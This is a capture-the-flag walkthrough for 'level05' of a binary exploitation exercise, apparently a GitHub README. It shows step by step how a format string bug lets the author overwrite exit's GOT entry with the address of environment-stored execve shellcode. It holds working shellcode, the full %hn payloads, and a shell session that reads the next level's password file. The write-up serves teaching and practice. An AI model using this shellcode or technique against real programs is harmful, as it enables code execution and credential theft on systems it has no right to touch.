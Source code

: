 ## LEVEL 05
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level05.asm) and the [source file](./src/level05.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

#### For this level the usage of buffer overflow is possible, almost every security are removed.
---

This level is way shorted than the previous levels but that does means it's easier. I recommend that you read the entire source code to understand the rest of my explanation.

First thing I notice when I saw this level, is the usage of printf with a buffer. That means we can use a format string attack to leak and change the value of the program.

Second thing I notice is that the program doesn't use `ptrace` to prevent us from using a debugger. So we can use GDB again.

Third thing I didn't say any `system` call. That means we have to use a shellcode to get to flag.

And the last thing I notice is the call to `exit` at the end of the program. That means we can't overflow the return address but we can overwrite the address pointed by `exit<+0>`.

Now that we know what we have to do, the question is "How do we do it ?".

Before to do anything with GDB, I have to export the shellcode.

```bash
export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now I search the address of this environment variable in our program.

```shell
(gdb) x/s *((char **)environ)
0xffffd889:	 "SHELLCODE=\220\220\220\220\220\220\220[...]
```

Perfect the address I will use is `0xffffd8a9`. Now I need to find the address of `exit<+0>`.

```shell
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   [...]
```

The address is `0x080497e0`. Now I will do the same this as the level3 of rainfall. I will write this address, then the value to overwrite it's value with `%n`.
The last thing I need is the distance between %esp and here my buffe is stored.

```shell
(gdb) x/x $esp
0xffffd610:	0xffffd638
```
Perfect the distance is `0x28` or `40` in decimal. Let's try to overwrite the address pointed by `exit`.

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + " %10$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + " %10$n"')


Breakpoint 1, 0x0804850c in main ()
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00000005
```

Now I convert the address of my shellcode in decimal. 
`ffffd8a9 <==> 4294957225`

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + " %4294957225ld%10$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + " %4294957225ld%10$n"')

Breakpoint 1, 0x0804850c in main ()
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0x08048376
```

Oh, this is not what I expected, but why? The reason is that the number 4294957225 is too large to fit in a 32-bit register, and it may also be too long to be used as padding in `printf`. To solve this problem, I will use the `%hn` flag, which will write one WORD instead of one BYTE. For a more detailed explanation of how it works, I recommend reading the source code provided at the bottom of this README. It provides a well-explained description of the technique.

First we need to write two addresses, the address of `exit` and the address of `exit+2`.
To change word by word.

```shell
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%10d%10$hn" + "%20d%11$hn"'
-- ADDRESS OF ONE --- ADDRESS OF TWO --- %{value to write}%{argument number where I change the value} --- %{value to write}%{argument number where I change the value}
```

Let's try it.

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%10d%10$hn" + "%20d%11$hn"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level05/level05 < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%10d%10$hn" + "%20d%11$hn"')
       100          -134415680

Breakpoint 1, 0x0804850c in main ()
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00260012
```

Perfect, now I just need to change it with the address of my shellcode. But before I have to transform the address to fit in two WORD.

```
Initial address of shellcode -> 0xffffd8a9
First WORD : d8a9
- convert to decimal = 55465
- minus 8 = 55457 (Remove the addresses before)
==> 55457

Second WORD : ffff
- convert to decimal = 65535
- minus 8 = 65527 (Remove the addresses before)
- minus 55457 = 10070 (Remove the first WORD length)
==> 10070
```
Perfect now I just have to put it in my payload.

```shell
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55457d%10$hn" + "%10070d%11$hn"')
[...]
(gdb) x/x 0x080497e0
0x80497e0 <exit@got.plt>:	0xffffd8a9
(gdb) q
$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55457d%10$hn" + "%10070d%11$hn"'; cat -) | ./level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

---

*Source :*

*https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf*